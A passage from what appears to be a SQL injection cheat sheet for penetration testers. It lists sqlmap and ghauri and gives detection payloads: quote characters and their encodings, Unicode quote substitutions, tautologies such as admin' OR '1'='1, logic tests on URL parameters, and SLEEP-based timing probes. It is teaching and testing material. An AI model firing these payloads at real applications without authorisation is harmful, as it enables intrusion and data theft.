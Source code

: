 
## Tools

* [sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap) - Automatic SQL injection and database takeover tool
* [r0oth3x49/ghauri](https://github.com/r0oth3x49/ghauri) - An advanced cross-platform tool that automates the process of detecting and exploiting SQL injection security flaws


## Entry Point Detection

Detecting the entry point in SQL injection (SQLi) involves identifying locations in an application where user input is not properly sanitized before it is included in SQL queries.

* **Error Messages**: Inputting special characters (e.g., a single quote ') into input fields might trigger SQL errors. If the application displays detailed error messages, it can indicate a potential SQL injection point.
    * Simple characters: `'`, `"`, `;`, `)` and `*`
    * Simple characters encoded: `%27`, `%22`, `%23`, `%3B`, `%29` and `%2A`
    * Multiple encoding: `%%2727`, `%25%27`
    * Unicode characters: `U+02BA`, `U+02B9`
        * MODIFIER LETTER DOUBLE PRIME (`U+02BA` encoded as `%CA%BA`) is transformed into `U+0022` QUOTATION MARK (`)
        * MODIFIER LETTER PRIME (`U+02B9` encoded as `%CA%B9`) is transformed into `U+0027` APOSTROPHE (')

* **Tautology-Based SQL Injection**: By inputting tautological (always true) conditions, you can test for vulnerabilities. For instance, entering `admin' OR '1'='1` in a username field might log you in as the admin if the system is vulnerable.
    * Merging characters
      ```sql
      `+HERP
      '||'DERP
      '+'herp
      ' 'DERP
      '%20'HERP
      '%2B'HERP
      ```
    * Logic Testing
      ```sql
      page.asp?id=1 or 1=1 -- true
      page.asp?id=1' or 1=1 -- true
      page.asp?id=1" or 1=1 -- true
      page.asp?id=1 and 1=2 -- false
      ```

* **Timing Attacks**: Inputting SQL commands that cause deliberate delays (e.g., using `SLEEP` or `BENCHMARK` functions in MySQL) can help identify potential injection points. If the application takes an unusually long time to respond after such input, it might be vulnerable.


## DBMS Identification

### DBMS Identification Keyword Based
